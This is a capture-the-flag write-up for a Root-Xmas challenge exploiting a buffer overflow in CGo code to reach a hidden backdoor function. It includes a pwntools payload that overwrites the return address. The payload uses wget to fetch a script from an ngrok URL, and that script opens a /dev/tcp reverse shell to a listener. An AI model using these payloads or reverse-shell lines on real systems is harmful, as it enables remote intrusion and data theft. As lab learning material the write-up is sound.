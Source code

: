 ```yaml
---
layout: Post
format: chall
title: Day 07 - Go, Pwn, Gown
date: 2024-12-11
ctf: Root-Xmas
tags: [Go, Buffer Overflow, RCE, Revshell]
category: [Pwn]
---
```

# Day 07 - Go, Pwn, Gown

<a class="back-link" href="../../">< Go back</a>

## Description

I love golang because it's safe. But this... This scares me. I mean, comments should be comments... But sneak code is always enjoyable, isn't it?

Author : Laluka
<https://deploy.xmas.root-me.org/>

```bash
curl "http://host/areyou" # OK Annie?!
curl "http://host/?gown=please" # curl: (52) Empty reply from server
file docker-gown.bin
# docker-gown.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, ...
```

all files in [resources/](./resources) were provided.

## Challenge

### Reconnaisance

Looking at the app we are given, there's a flag file hidden in `/flag`. We have a golang code that has CGo inside.

That C code has a buffer overflow:

```c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}
```

The `buffer` array is passed 128 bytes in it's 64 slots, we can exploit this to overwrite the return address of `unsafeFunction` and get into `laluBackdoor`:

```c
void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
```

`laluBackdoor` let's us run anything stored inside `$GOWN`. Which is the value passed as a parameter to the code:

```go
gown := r.URL.Query().Get("gown")
// ...
cGown := C.CString(gown)
if i := strings.IndexByte(gown, '\x00'); i != -1 {
  gown = gown[:i]
}
os.Setenv("GOWN", string(gown))
// ...
defer C.free(unsafe.Pointer(cGown))
C.unsafeFunction(cGown)
```

The actual data given to `$GOWN` is cut at a null byte, though the trailing data which is our payload is still present in memory.

### Building the payload

Our payload requires 64 bytes of padding to fill the `buffer` array in `unsafeFunction`, then it needs 8 bytes of extra padding to pad over `%rbp` and finally we can write our 8 bytes of return address to `laluBackdoor`:

```
[ 'A' * (64 + 8) bytes ][ laluBackdoor address ]
```

Let's first identify the address of `laluBackdoor`, build the project using `docker-compose up -d` and let's get into the container:

```bash
docker ps
docker exec -it <container_id> /bin/bash
$ nm /app/gown | grep laluBackdoor
# 61eb91 T laluBackdoor
```

Perfect, now instead of a simple 'A' padding, let's think of a payload we can use to exfiltrate the flag. Most command output will be lost as the server doesn't reply them. The most direct option is to revshell the flag.

### Exploiting

I'm using ngrok, and the URL itself is pretty long and goes over our `'A' * (64 + 8 - 1)` padding (remember that we need 1 byte for the null byte at the end)

So instead of opting for a one-liner rev shell command, let's upload our revshell and then run it. We can use `curl` to upload the file and then run it.

Let's write a short name file ([o](./o)):

```bash
sh -i 5<> /dev/tcp/<REV_IP>/3005 0<&5 1>&5 2>&5
```

Then serve it using a simple python server `python -m http.server 8080` and ngrok `ngrok http 8080`.

Now we can build our first payload, let's use the `pwntools` library in python:

```py
payload = b"wget https://5637-163-5-23-73.ngrok-free.app/o\x00"
payload = payload + b"A" * (64 - len(payload)) + b"B" * 8 + p64(0x61eb91)
payload = quote_plus(payload).encode()
request = b'GET /?gown=' + payload + b' HTTP/1.1\r\nHost: 127.0.0.1\r\n\r\n'
```

Once the payload is sent we just have to switch the main second bash payload and start our listener using `nc -lvp 3005`.

```py
payload = b"/bin/bash o\x00"
```

When connected, navigate to `/flag` and get the flag!

